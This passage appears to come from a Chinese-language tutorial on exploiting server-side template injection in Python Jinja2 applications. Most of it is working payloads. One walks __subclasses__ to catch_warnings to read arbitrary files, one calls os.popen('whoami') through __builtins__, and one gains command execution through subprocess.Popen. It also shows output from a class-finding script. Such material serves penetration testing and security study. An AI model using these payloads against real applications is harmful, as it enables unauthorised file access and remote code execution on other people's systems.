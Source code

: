 ```go

  {% endif %}



  {% endfor %}



{% endif %}



{% endfor %}
```

![img](https://gitee.com/eviden/img/raw/master/202406141122716.png)

 

读取文件payload

```go
{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

然后这里再提一个比较少人提到的点

`warnings.catch_warnings`类在在内部定义了`_module=sys.modules['warnings']`，然后`warnings`模块包含有`__builtins__`，也就是说如果可以找到`warnings.catch_warnings`类，则可以不使用`globals`，payload如下

```go
{{''.__class__.__mro__[1].__subclasses__()[40]()._module.__builtins__['__import__']("os").popen('whoami').read()}}
```

总而言之，原理都是先找到含有`__builtins__`的类，然后再进一步利用

- `subprocess.Popen`进行RCE

我们可以用`find2.py`寻找`subprocess.Popen`这个类，可以直接RCE，payload如下

```go
{{''.__class__.__mro__[2].__subclasses__()[258]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}
```

- 直接利用`os`

一开始我以为这种方法只能用于python2，因为我在本地实验的时候python3中无法找到直接含有os的类，但后来发现python3其实也是能够用的，主要是环境里面有这个那个类才行

我们把上面的`find.py`脚本中的search变量赋值为os，去寻找含有os的类

```go
λ python find.py



(<class 'site._Printer'>, 69)



(<class 'site.Quitter'>, 74)
```
